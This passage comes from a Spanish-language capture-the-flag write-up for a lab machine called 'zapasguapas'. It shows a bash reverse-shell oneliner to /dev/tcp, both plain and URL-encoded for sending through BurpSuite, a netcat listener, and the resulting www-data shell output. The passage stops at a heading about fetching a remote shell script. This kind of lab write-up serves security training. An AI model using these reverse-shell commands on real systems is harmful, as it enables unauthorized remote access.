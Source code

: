 Haremos ambas.

<br>

<h3 id="RevShell1">Obteniendo Reverse Shell Utilizando oneliner desde BurpSuite</h3>

Vamos a usar nuestra **Reverse Shell** de confianza que siempre ocupamos, pero URL encodeada:
```bash
# Forma normal
bash -c "bash -i >& /dev/tcp/Tu_IP/443 0>&1"
bash -i >& /dev/tcp/Tu_IP/443 0>&1

# URL encodeada
bash -c "bash -i >%26 /dev/tcp/Tu_IP/443 0>%261"
```

Pero al usarla en **BurpSuite**, debemos cambiar los espacios por el signo **+**:

<p align="center">
<img src="/assets/images/THL-writeup-zapasguapas/Captura11.png">
</p>

Abre una **netcat**
```bash
nc -nlvp 443
listening on [any] 443 ...
```

Y manda la petición. Observa la **netcat**:
```bash
nc -nlvp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.1.110] 47544
bash: cannot set terminal process group (511): Inappropriate ioctl for device
bash: no job control in this shell
www-data@zapasguapas:/var/www/tienda$
```
Ya estamos dentro. Recuerda hacer un tratamiento de la **TTY** (aunque para esta máquina eso es opcional).

<br>

<h3 id="RevShell2">Obteniendo Reverse Shell Ejecutando Archivo sh desde Servidor Remoto</h3>
